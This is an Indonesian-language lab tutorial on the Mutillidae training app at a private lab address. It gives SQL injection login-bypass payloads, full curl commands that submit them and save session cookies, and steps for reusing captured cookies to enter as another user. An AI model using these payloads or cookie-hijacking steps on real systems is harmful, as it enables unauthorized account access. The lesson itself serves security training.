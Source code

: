 


Pada lesson 6 kali ini, akan menjelaskan tentang:
A. cara mengetahui isi dari suatu paket (POST) menggunakan burpsuite dan curl
B. cara masuk sebagai user / pengguna tertentu tanpa melakukan login menggunakan cookies (man in the middle attack).

A. cara mengetahui isi dari suatu paket (POST) menggunakan burpsuite dan curl

1. Buka burpsuite didalam kali linux. kemudian pilih tab proxy -> option . pastikan port 8080 atau localhost pada kolom running tercentang

2. Lalu pada bagian proxy -> interception, pastikan intercept dalam kondisi off.

3. Buka browser, lalu masukkan alamat ip mutillidae: 192.168.56.101/mutillidae. kemudian pilih menu login/register

4. pada kolom nama, masukkan perintah sebagai berikut: "' or 1=1-- " (yang terdapat didalam dua petik. pastikan pada akhir -- terdapat spasi. maksud dari perintah tersebut apabila diterjemahkan dalam bahasa sql adalah sebagai berikut: SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''

5. kemudian klik login. setelah itu, kembali pada bupsuite dan masuk kebagian proxy -> history. didalam nya akan terdapat hasil proses login yang telah dilakukan tadi.

6. kemudian kembali ke browser. logout user tadi. apabila sudah logout, buka terminal. kemudian jalankan perintah sebagai berikut:

curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://192.168.56.101/mutillidae/index.php?page=login.php" > login1.txt . 

Apabila sudah, jalankan perintah:

grep "Logged In" login1.txt 

kemudian jalankan perintah: 
cat crack_cookies.txt

semua perintah diatas bertujuan untuk mengetahui user yang sedang login pada session sebelumnya.

7. sekarang untuk ujicoba yang lain, masuklah pada halaman login. pada kolom username ketikkan nama "samurai" tanpa petik. kemudian pada bagian password, klik kanan pilih insert element.

8. maka akan keluar sebuah jendela baru dibagian bawah browser anda. ganti string password dengan "text". lalu ubah size dan maxlength yang awalnya 20 menjadi 50.

9. jika sudah, tutup jendela dibawah tadi. kemudian pada kolom password masukkan text sebagai berikut:
' or (1=1 and username='samurai')-- 
jangan lupa untuk menambahkan space (spasi) setelah -- 

10. apabila sudah, tekan tombol login. kemudian masuk kedalam aplikasi burpsuite dan lihat lah pada history yang barusan anda lakukan. pilih history dengan method post. pada bagian bawah akan muncul text berisikan history yang telah dilakukan sebelumnya. simpan history tersebut didalam sebuah file txt dengan nama burp2.txt

11. jika sudah disimpan, masukklah kedalam terminal. kemudian ketik: "cd /root" . kemudian grep text burp2.txt tadi dengan perintah: "grep -i cookie burp2.txt" . kemudian dilanjutkan dengan perintah: "grep -i username burp2.txt". perintah yang dijalankan diatas bertujuan untuk mnegetahui user yang sedang login pada session sebelumnya.

12. Apabila perintah diatas sudah dijalankan, logout session yang berada didalam windows dan kembalikan pengaturan network seperti semula (tanpa proxy)

B. cara masuk sebagai user / pengguna tertentu tanpa melakukan login menggunakan cookies (man in the middle attack)

1. Sebelum melakukan man in the middle attack, terlebih dahulu harus menyiapkan cookies baru untuk dijadikan perantara. 
- hapus cookies sebelumnya dengan menggunakan perintah: rm crack_cookies.txt
- lakukan grep username pada file burp2.txt: grep -i username burp2.txt
- jalankan perintah: curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29--+&login-php-submit-button=Login" --location "http://192.168.56.101/mutillidae/index.php?page=login.php" > login2.txt
- lalu grep user yg sedang login: grep "Logged In" login2.txt
- terakhir copy isi file diatas kedalam crack_cookies: cat crack_cookies.txt

2. Jalankan cookies manager +. kemudian tambahkan cookies baru.

3. cookies pertama, beri nama PHPSESSID. kemudian isi didalamnya sesuai dengan isi tabel crack cookie baris pertama sepeti berikut:

4. cookies kedua, beri nama username. kemudian isi didalamnya sesuai dengan isi tabel crack cookie baris kedua seperti berikut:

5. cookies ketiga, beri nama dengan uid. kemudian isi didalamnya sesuai dengan isi tabel crack cookie baris ketiga seperti berikut:

6. Terakhir masuklah kedalam browser. kedian akses index.php mutillidae dengan cara: ip/mutillidae/index.php -> 192.168.56.101/mutillidae/index.php

